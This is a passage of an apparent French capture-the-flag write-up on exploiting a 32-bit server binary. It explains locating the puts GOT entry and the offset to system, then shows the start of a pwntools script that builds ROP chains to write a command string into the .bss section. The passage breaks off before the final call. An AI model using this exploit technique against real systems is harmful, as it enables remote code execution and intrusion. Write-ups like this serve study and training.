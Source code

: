 - l'adresse où est stockée l'adresse de `puts` de la libc (`GOT`)

- le décalage entre `puts` et `system`

- l'instruction pour l'addition

- les instructions pour définir les registres nécessaires

Étape suivante : écrire en mémoire la ligne de commande que l'on souhaite, car comme dis plus tôt on ne peut pas faire exécuter un simple `/bin/sh`.

On pourrait écrire à une adresse quelconque du moment que la zone mémoire est écrivable, seulement notre gadget n'est utile que si l'emplacement est remplis d'octets nuls.

Une technique souvent utilisée dans les CTF est d'utiliser la section [bss](https://en.wikipedia.org/wiki/.bss) qui contient les données non initialisées. J'ai jeté un œil et il y avait suffisamment d'octets nuls.

Voici l'exploit final qui utilise `pwntools` :

```python
import sys
import ctypes
from math import ceil

from pwn import ELF, process, ROP, log, p32, u32, remote

BINARY = "/tmp/server"
if sys.argv[1] == "local":
    LIBC = ELF("/lib/libc.so.6")
    TARGET = "127.0.0.1"
else:
    LIBC = ELF("/tmp/libc.so")
    TARGET = "192.168.56.187"

# Gadgets from server binary
pop_edx = 0x08048e13  # pop edx ; ret
pop_eax = 0x08048e20  # pop eax ; ret
write_mem = 0x08048dd7  # add dword ptr [eax + 0x5bf8658d], edx ; pop edi ; pop ebp ; ret
placeholder = 0xdeadbeef

def wrap(s, w):
    return [s[i:i + w] for i in range(0, len(s), w)]

def write_to(what, where):
    chain = p32(pop_edx)
    chain += p32(what)         # edx
    chain += p32(pop_eax)
    chain += p32(ctypes.c_uint32(where - 0x5bf8658d).value)  # eax
    # Beware: we can just add to that address but not overwrite.
    chain += p32(write_mem)
    chain += p32(placeholder)  # edi
    chain += p32(placeholder)  # ebp
    return chain

def write_command(command):
    payload = b""
    count = ceil(len(command) / 4) * 4
    command = command.ljust(count, " ")
    for i, part in enumerate(wrap(command, 4)):
        payload += write_to(u32(part.encode()), BSS+i*4)
    return payload

ELF_LOADED = ELF(BINARY)  # Extract data from binary
BSS = ELF_LOADED.bss()
log.info(f"BSS address is at {hex(BSS)}")

```